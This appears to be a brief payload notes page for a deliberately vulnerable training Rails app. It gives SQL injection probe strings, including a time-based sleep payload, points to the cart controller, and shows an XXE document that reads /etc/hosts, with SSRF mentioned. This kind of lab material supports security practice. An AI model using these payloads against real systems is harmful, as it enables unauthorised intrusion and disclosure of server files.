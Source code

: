 # Knowledge

you can use these 💻 Payload to attack broken-rails-app

---

# SQLi

## 💻 Payload

```sql
 and 1=1
 and 1=2
'and'a'='a
'and'a'='b
'and+sleep(3)+and+'a'='a
# Time Based
```

## 🔍 Action

### products => PURCHASE

```c
[source]
app/controllers/cart_controller.rb
```

---

# XXE

## 💻 Payload

Use xml/xxe.xml for detecting XXE.

```xml
<?xml version='1.0' encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "///etc/hosts">]>
<product>
  <title>test_product</title>
  <info>&xxe;</info>
  <value>9999</value>
  <img_path>dummy0.jpg</img_path>
</product>

```

-   SSRF
